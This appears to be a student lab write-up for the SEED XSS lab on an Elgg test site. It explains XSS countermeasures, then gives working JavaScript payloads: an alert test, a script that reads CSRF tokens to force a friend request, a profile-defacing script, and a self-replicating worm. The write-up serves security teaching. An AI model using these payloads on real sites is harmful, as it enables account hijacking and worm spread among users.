 # Background
## What is XSS attack?
![[Drawing 2023-11-20 15.57.56.excalidraw|650]]
## Countermeasures
1. Sanitize(Filter): The goal for this countermeasure is to remove the code from user's inputs. Usually, the malicious code are embedded with a script tag. Therefore, by deleting this tag, the malicious code can be treated as normal text. 
2. Encoding: Similar to the first method, we can use the ASCII characters to treat the tag brackets '<' and '>' as characters by encoding them. It can also make the malicious code be text. 
3. Content Security Policy: This is a method to control the script usage of the files. For example, we can only allow the website use the same source script. We can also restrict the inline script with nonces to prevent users from using unknown source scripts. 
# Task 1
## Results and Screenshots
Input: 
`<script>alert('xss')</script>` 
Output: 
![[Pasted image 20231120123001.png|650]]
## Explanation
For the website input, it has a "Edit HTML" button which allows the users to input the HTML tags directly without sanitizing them. Therefore, if we put script tags inside the input box, the website would run the code between the script tags. When we click the save button, it will also put everything into the database as the script tag, which means every user who access this page will automatically run the not sanitized code. 
# Task 2
## Results and Screenshots
Captured: 
`http://www.seed-server.com/action/friends/add? friend=59&__elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw&_ _elgg_ts=1700483477&__elgg_token=Blz_SXdDF3os1joxJsVvyw`
Script: 
```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token;  
var sendurl= "http://www.seed-server.com/action/friends/add? friend=59"+ts+token+ts+token; 
Ajax=new XMLHttpRequest(); 
Ajax.open("GET", sendurl, true); 
Ajax.send(); 
}
</script>
```
Alice's account automatically sent the request: (When refresh, the button automatically changed from "Add Friend" to "Remove Friend")
![[Pasted image 20231120125238.png|650]]
## Questions
1. Question 1: Explain the purpose of (1) and (2), why are they needed? 
Answer: The website contains countermeasures regarding the CSRF attack. The token and the timestamp are used as a verification of user's status. Therefore, the two lines are used to directly extract the CSRF token and timestamp to the variable to use them easily. 
2.  If the Elgg application only provides the Rich Text Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode (“Edit HTML”), can you still launch a successful attack?
Answer: Yes. Usually, the Rich Text Editor contains safety measures to clear the malicious input. They usually intend to delete HTML tags inside the user input. However, we can directly modify the content in the input tag to avoid the additional verification. 
# Task 3
## Results and Screenshots
Input: 
```
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp
__elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content="&description=<p>samy is my
hero</p>"+ts+token+userName+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid)
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
When Alice is accessing Samy's web page, we can see the request is automatically sent.![[Pasted image 20231120132828.png|650]]Alice's profile after visit Samy's Profile: 
![[Pasted image 20231120132859.png|650]]
## Questions
3. Why do we need Line (1)? If we do not add this check, can the attack be successful? How come we do not have such a check in the add-friend attack (add_friend.js)? 
Answer: If we do not add this check, when Samy is checking his own page, the malicious code may copy the text "Samy is my hero" to his own profile, which will overwrite the malicious content. For add_friend.js, the malicious code does not do any overwrite, it only send the get request to the server to add Samy as friend. When Samy access the server, the server would not accept a request that add himself as a friend. Therefore, adding this if statement or not will not influence the result of the attack. 
# Task 4
## Results and Screenshots
Input: 
```
<script id="worm">
var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
var jsCode = document.getElementById("worm").innerHTML; 
var tailTag = "</" + "script>"; 
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
alert(jsCode);
window.onload = function(){
userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid; var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; var token="&__elgg_token="+elgg.security.token.__elgg_token; 
var content="&description="+wormCode+ts+token+userName+guid; 
var samyGuid=59; 
var sendurl="http://www.seed-server.com/action/profile/edit"; 
if(elgg.session.user.guid!=samyGuid) { 
var Ajax=null; 
Ajax=new XMLHttpRequest(); 
Ajax.open("POST", sendurl, true); 
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
Ajax.send(content); } 
}
```
Samy's Profile: (After put the worm)
Alice Profile (Before put the worm):
Alice Profile (After visit Samy's Profile):
Boby Profile (Before visit Alice's Profile):
